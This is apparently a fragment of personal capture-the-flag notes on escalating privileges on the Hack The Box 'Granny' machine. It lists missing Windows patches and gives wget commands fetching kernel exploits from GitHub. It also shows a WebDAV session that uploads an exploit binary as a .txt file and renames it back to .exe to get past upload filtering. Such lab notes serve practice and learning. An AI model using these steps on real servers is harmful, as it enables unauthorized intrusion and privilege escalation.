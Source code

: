 ```
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done
root@kali:~/htb/YoloToolbox/machines/htb/granny# 

```


## Elevzation

### MS14-058 : use windows/local/ms14_058_track_popup_menu

Use metasploit...

### ‘KiTrap0D’ MS10–015 via Metasploit.

Use metasploit...

### MS14–070 : TCP/IP IOCTL Privilege Escalation 
https://www.exploit-db.com/exploits/37755


### MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) 

wget https://github.com/hfiref0x/CVE-2015-1701,
Not working

### MS14-070

# wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS14-070/MS14-070.rar
unrar x MS14-070/MS14-070.rar
cp MS14-070/MS14-070.exe .

dav:/> put MS14-070.exe MS14-070.txt
Uploading MS14-070.exe to `/MS14-070.txt':
Progress: [=============================>] 100,0% of 33812 bytes succeeded.
dav:/> move MS14-070.txt MS14-070.exe
Moving `/MS14-070.txt' to `/MS14-070.exe':  succeeded.
dav:/> 


cd C:\Inetpub\wwwroot
